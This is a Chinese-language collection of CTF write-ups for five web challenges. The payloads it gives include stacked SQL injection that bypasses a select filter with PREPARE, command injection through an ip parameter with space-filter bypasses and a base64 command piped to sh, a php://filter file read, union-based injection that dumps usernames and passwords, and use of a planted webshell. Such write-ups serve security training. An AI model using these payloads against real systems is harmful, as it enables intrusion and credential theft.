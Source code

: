 # 1.[强网杯 2019]随便注

```sql
1’ or 1=1   # 此语句没用,但是确认有注入点
		    # 本题select被禁用,使用堆叠注入

1’;show databases;    # 回显数据库名 1’;show tables;#表名

1'; show columns from tableName;    # 纯数字要用``包裹

1';PREPARE hacker from concat('s','elect', ' * from `1919810931114514` ');EXECUTE hacker;      # 用PREPARE预编译,EXECUTE执行
```

# 2.[GXYCTF2019]Ping Ping Ping

#### 方法一 覆盖变量绕过

```shell
# 靶机打开之后提示/?ip=,说明是构造ip

/?ip=127.0.0.1;ls   # 输入127.0.0.1用管道符加上linux命令

/?ip=127.0.0.1;cat flag.php # 出现flag.php和index.php,故执行cat命令

# 空格被过滤了,想到可以用以下方法绕过:

$IFS$, $IFS$1, ${IFS, %20, <和<>重定向符, %09

/?ip=127.0.0.1;cat$IFS$1flag.php # 发现$IFS$1 可以成功绕过 

/?ip=127.0.0.1;cat$IFS$1flag.php # 但是flag也被过滤了,所以先获取index.php的内容 

# 发现了关于过滤的信息,发现很多符号过滤了,但是有一个变量a可以替换

/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php 
```

#### 方法二 内联执行

```shell
/?ip=127.0.0.1;cat$IFS$1`ls` 

# $IFS在Linux下表示为空格

# $1是当前系统shell进程第一个参数持有者，始终为空字符串，$后可以接任意数字

# 反引号中是内联执行的命令
```

#### 方法三 变量互相传递绕过

```shell
/?ip=127.0.0.1;b=ag;a=fl;cat$IFS$1$a$b.php
```

#### 方法四 bash被过滤，用管道+sh替换

```shell
# 使用base64转化`cat flag.php`为Y2F0IGZsYWcucGhw

/?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh

# 其他shell构造最后的sh可以改成bash
```

# 3.[极客大挑战 2019]Secret File 1

```php
F12发现有一个./Archive_room.php文件，点击跳转有个按钮，再次点击发现查阅结束了，猜测可能有隐藏界面。

用burp抓包可以看到有一个隐藏文件secr3t.php，访问发现提示flag放在了flag.php中，访问flag.php发现被隐藏了。于是回到secr3t.php，用php://filter协议获取文件。

/?file=php://filter/read=convert.base64-encode/resource=flag.php

获取了base64字符串，再解码获得flag
```

# 4.[极客大挑战 2019]LoveSQL 1

```sql
# 进入后发现是sql注入，使用万能语句1’ or 1=1#注入，发现登录成功，说明有注入点。然后测试有几个字段，1’ order by $1$#进行尝试，发现3是正确的，说明有三个字段。

# 再使用联合搜索1’ union select 1,2,3#，发现2，3位置会回显。

1’ union select 1,database(),version() # 爆数据库名

1’ union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()    # 爆表名

1’ union select 1,2,group_concat(column_name) from information_schema.columns where table_name=’ l0ve1ysq1’   # 爆字段

1’ union select 1,2,group_concat(id,username,password) from l0ve1ysq1
# 查表得到flag
```



# 5.[极客大挑战 2019]Knife 1

```
进入后发现一句话木马，用蚁剑连接，密码是Syc，测试成功并保存，查询根目录发现flag，进入后得到flag
```

